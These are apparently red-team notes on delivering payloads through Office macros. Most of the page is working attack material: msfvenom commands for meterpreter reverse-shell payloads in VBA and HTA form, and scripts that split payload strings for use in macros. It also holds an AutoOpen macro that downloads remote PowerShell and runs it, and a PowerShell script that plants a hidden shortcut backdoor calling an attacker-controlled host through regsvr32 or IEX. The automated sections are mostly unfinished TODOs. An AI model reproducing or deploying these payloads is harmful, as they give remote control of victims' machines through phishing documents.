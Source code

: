 # Payload Delivery Macro

## 01 - Crafting Manually

### 1.1 - Scripts

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f psh-cmd`

`$ cat vba-macro-payload-format.py`

---

```python
#!/usr/bin/env python

string = ""
n = 50

for i in range(0, len(string), n):
    print("Str = Str + \"" + string[i:i+n] + "\"")
```

`$ cat vba-macro-payload-format.pl`

---

```perl
#!/usr/bin/env perl

my $string = "";

my @characters = ($string =~ /(.)/g);

$concatenated_string = "";

for(my $i = 0; $i < scalar(@characters); $i++) {
    $concatenated_string .= "Str = Str + \"";
    for(my $j = 0; $j < 50; $j++) {
        $concatenated_string .= $characters[$i++];
    }
    $concatenated_string .= chr(34)."\n";
}
print $concatenated_string;
```

`$ cat vba-macro-payload-format.go`

---

```go
package main

import "fmt"

func main() {
    String := ""

    for i := 0; i < len(String); i++ {
        fmt.Print("Str = Str + \"")
        for j := 0; j < 50; j++ {
            if i == len(String) {
                break
            }
            fmt.Printf("%c", String[i])
            i++
        }
        fmt.Print("\"\n")
    }
}
```

### 2.1 - Use Cases

#### 2.1.1 - VBA Macro

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f vba-psh -o macro.vbs`

#### 2.1.2 - HTA Callback Shell

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f hta-psh -o hta-payload.hta`

#### 2.1.3 - Shortcut Link

`$ cat macro.vbs`

---

```vbscript
Sub AutoOpen()
    Shell("powershell -c ""(Invoke-WebRequest ""http://<IP>/pwsh_cmds.txt"").Content | powershell"" ")
End Sub
```

Note: The TargetPath has a limit of 260 characters long

`$ cat pwsh_cmds.txt`

---

```powershell
$shortcutPath = "C:\Users\" + $env:username + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)

## Scriptlet files .sct
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll'

# For HTA files
# $Shortcut.TargetPath = 'C:\Windows\System32\mshta.exe'
# $Shortcut.Arguments = 'http://<IP>/shell.hta'

# For conhost.exe and powershell one-liner
# $Shortcut.TargetPath = 'cmd'
# $Shortcut.Arguments = "/k `"powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/shell.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7
$Shortcut.WorkingDirectory = "C:\Users\" + $env:username + "\Public"
$Shortcut.Save()
attrib +h $shortcutPath
```

`$ sudo python -m http.server 80`

## 02 - Automated

### 2.1 - Metasploit

### 2.2 - Cobalt Strike

TODO: Showcase cobalt strike macro generator

### 2.3 - LuckyStrike

### 2.3.1 - Setup

TODO: Show the steps to install LuckyStrike

#### 2.3.2 - Usage

TODO: Showcase LuckyStrike usage by generating a macro

### 2.4 - Setoolkit

---
## References

- [LuckyStrike](https://github.com/curi0usJack/luckystrike)

- [LuckyStrike Usage Details](https://www.sevenlayers.com/index.php/293-luckystrike)

- [Lab 3 LuckyStrike Macro Generator](https://pythonforcybersecurity.com/lessons/lab-3-luckystrike-macro-generator/)

- [Getting System Access Using Malicious Word File](https://niiconsulting.com/checkmate/2017/05/getting-system-access-using-malicious-word-file/)

- [Phishing Files and Documents](https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology/phishing-documents)

- [Multiple Ways to Exploit Windows Systems using Macros](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)

- [MS Excel Weaponization Techniques](https://bank-security.medium.com/ms-excel-weaponization-techniques-79ac51610bf5)

- [Metasploit Module of the Month Web Delivery](https://warroom.rsmus.com/metasploit-module-of-the-month-web_delivery/)

- [Various Macros-Based RCEs](https://gist.github.com/mgeeky/9dee0ac86c65cdd9cb5a2f64cef51991)